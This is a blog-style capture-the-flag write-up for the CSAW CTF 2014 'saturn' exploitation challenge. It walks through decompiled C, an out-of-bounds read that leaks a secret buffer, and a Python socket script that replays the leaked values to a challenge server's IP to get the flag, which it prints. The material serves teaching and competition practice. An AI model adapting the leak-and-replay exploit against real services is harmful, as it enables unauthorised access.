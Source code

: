 ```yaml
---
title: CSAW CTF 2014 -- Exploitation 400 saturn
layout: single
comments: true
share: true
related: true
author_profile: true
permalink: "/:title/"
tags:
- CTF
- CSAW
- Python
- Pwnable
categories:
- write-ups
date: '2014-09-25 09:35:00 +0000'
---
```


First the challenge gave us a binary file (ELF for Intel-386). But we can't execute it, cause we don't have the required shared library **"libchallengeresponse.so"**. So we will have to launch IDA Pro to see what's going on within the program.
<!-- more -->

After analyzing the program ( praise the powerful F5 key! ) , I collected the following information:

# Main function

``` c
int main()
{
  puts("CSAW ChallengeResponseAuthenticationProtocol Flag Storage");
  
  for ( i = 0; i <= 0; ++i )
  {
    v0 = read_one_byte();
    v3 = v0;
    v1 = v0 & 0xF0;
    switch ( v1 )
    {
      case 160: //0xA0
        functionA(v3);
        i -= 2;
        break;
      case 224: //0xE0
        functionB(v3);
        i -= 2;
        break;
      case 128: //0x80
        functionC();
        break;
    }
  }
  return 0;
}
```

As we can see, the main function will read a byte from the user input, and do the `&` operation. `v1` will hold the result, and a `switch-case` condition will decide which function to run next, base on `v1`'s value. 

So basically, we can summarize that the main function will **only accept 3 kinds of input**: `0xA0 ~ 0xAF`, `0xE0 ~ 0xEF` and `0x80 ~ 0x8F`. Now let's take a good look at those functions.

# functionA

```c
functionA (char a1)
{
	int v2; 
	v2 = *((int *)bufferA + (a1 & 0xF));

	print_four_char_which_store_in_v2();
}
```

In `functionA`, we found a `bufferA`, which start from a specific address. `functionA` will take the original input (a byte value) as the parameter, extract its last 4 bit, take it as the offset from `bufferA` and calculate the position's address. Then, `v2` will store a 4 bytes value, start from the new address in `bufferA`. At last the function will print out 4 char (= 4 byte) which was stored in `v2`.

Note that if the offset is `0x1`, the new address will start from `bufferA + 4`, if the offset is `0x2`, the new address will start from `bufferA + 8`...and so on (basic knowledge of pointer).

# functionB

```c
functionB (char a1)
{
	offser = a1 & 0xF
  
	v4 = *((int *)bufferB + offset);
	read_four_byte_from_input(v5);
  
	if ( v5 != v4 )
  		exit(0);
  
	bufferC[offset] = 1;
}
```
In `functionB`, we found `bufferB` and `bufferC` , both start from a specific address. Like `functionA`, `functionB` also take the original input (a byte value) as the parameter, extract its last 4 bit and take it as a `offset`. But there's a slight difference. In `functionB`, `v4` will store a 4 bytes value, start from the new position in `bufferB`, while another variable `v5` also read a 4 bytes value from the user input and hold its value. Then, the function will compare these two value, if they are the same, it will store value `1` in `bufferC`, the position is also base on the `offset`'s value.

So, if the user input is `0xE4`, `offset` will store the value `4`, `v4` will store the value `bufferB + 16` ~ `bufferB + 20`, `v5` will read another 4 bytes from user input. If `v4 == v5`, then `bufferC[4]` will store the value `1`

# functionC

```c
functionC()
{
	v6 = 1;
	
	for( i = 0 ; i <= 7 ; i++ )
 	{
 		v6 *= bufferC[i]
	}
  
	if (v6 == 0)
  		exit(0);	
	else
  		print_flag()
}
```
`functionC` is quite simple. It just calculate the factorial of all the values stored in `bufferC`. If the result isn't `0`, it will print out the flag, or else it will terminate the program. 

So, to sum up all the functions mentioned previously and how are we going to exploit:

1. use `functionA` to get all the values stored in `bufferB` (use IDA pro to check the offset between `bufferA` and `bufferB`, the offset is `32` (`0x20`) )
2. use `functionB` to overwrite the value in `bufferC`, in order to pass the checking function `functionC`
3. use `functionC` to get the flag

But here is the tricky part: **the values stored in** `bufferB` **are not fixed**. 
So, I finally decided to write a python script to solve the challenge. 

```python
from socket import *
from struct import *
 
sock = socket(AF_INET, SOCK_STREAM) #create socket (IP, TCP)
sock.connect(("54.85.89.65" , 8888))

print sock.recv(1024) #recv the title

"""
arr: inputs for getting bufferB's value
arr2: inputs for modifying bufferC's value
int_send: for storing the content of bufferB
"""

arr = ['\xA8', '\xA9','\xAA','\xAB','\xAC','\xAD','\xAE','\xAF']
arr2 = ['\xE0', '\xE1','\xE2','\xE3','\xE4','\xE5','\xE6','\xE7']
int_send = []

for c in arr:
	sock.send(c)
	data = sock.recv(4) #recv 4 bytes
	d = unpack("<I", data)[0] #unpack as an unsigned integer, little-endian format 
	int_send.append(d) # store the bufferB's value

send_cnt = 0

for i in int_send:
	sock.send(arr2[send_cnt]);
	sock.send(pack("<I",(i & 0xFFFFFFFF))) # force format to 32bit
	send_cnt += 1

sock.send('\x80') #get flag
print sock.recv(1024) #print flag
sock.close()  

```

the flag: `flag{greetings_to_pure_digital}`